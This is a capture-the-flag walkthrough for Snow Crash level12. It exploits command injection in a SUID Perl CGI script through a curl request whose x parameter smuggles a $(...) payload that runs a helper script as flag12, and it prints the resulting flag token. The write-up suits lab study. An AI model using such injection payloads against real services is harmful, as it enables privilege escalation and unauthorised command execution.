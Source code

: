 # Level12 – Snow Crash (Bonus Level)

## 🔐 Goal

The goal is to exploit the `level12.pl` SUID Perl CGI script running on port `4646` to retrieve the flag owned by `flag12`.

---

## 🔍 Initial Observations

Upon logging in as `level12`, we find the following file:

```bash
$ ls -l
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
The script is SUID, meaning it runs as flag12.

Running the script manually:

./level12.pl
Content-type: text/html

..
The script is also accessible via HTTP on http://localhost:4646.

📜 Source Code Review
Here is a snippet from the script:

@output = `egrep "^$xx" /tmp/xd 2>&1`;
This line is vulnerable to command injection via user input, specifically through the x parameter in the URL. It uses shell backticks and directly includes unescaped input from x.

⚠️ Vulnerability
We control the x parameter passed to this shell command:

egrep "^$xx" /tmp/xd
So we can inject a payload like:

x=$(command)
The shell will execute command and substitute its output in the final egrep call. Since the script runs as flag12, any command we inject runs with those privileges.

🧪 Exploitation Strategy
To simplify the exploit, we write our desired command (getflag) into a separate shell script and execute it via $(...) injection.

✅ Step 1: Create a helper script

$ vi /tmp/GETFLAG.SH
Contents:

#!/bin/bash
/bin/getflag > /tmp/flag12
Make it executable:

$ chmod +x /tmp/GETFLAG.SH
✅ Step 2: Inject the payload via HTTP
Use curl to trigger the script:

$ curl 'http://127.0.0.1:4646/?x=$(/*/GETFLAG.SH)'
This results in the shell executing:

/tmp/GETFLAG.SH
The getflag command is executed as flag12, and its output is saved to /tmp/flag12.

✅ Step 3: Retrieve the flag

$ cat /tmp/flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr